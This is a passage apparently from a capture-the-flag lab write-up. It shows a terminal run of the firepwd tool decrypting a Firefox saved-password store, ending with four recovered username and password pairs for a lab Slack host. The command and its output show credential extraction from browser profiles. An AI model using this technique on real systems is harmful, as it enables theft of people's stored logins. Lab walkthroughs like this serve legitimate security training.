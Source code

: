 ```bash
oxdf@hacky$ python /opt/firepwd/firepwd.py 
globalSalt: b'd215c391179edb56af928a06c627906bcbd4bd47'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'5d573772912b3c198b1e3ee43ccb0f03b0b23e46d51c34a2a055e00ebcd240f5'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'1baafcd931194d48f8ba5775a41f'
       }
     }
   }
   OCTETSTRING b'12e56d1c8458235a4136b280bd7ef9cf'
 }
clearText b'70617373776f72642d636865636b0202'
<SNIP>
clearText b'b3610ee6e057c4341fc76bc84cc8f7cd51abfe641a3eec9d0808080808080808'
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```

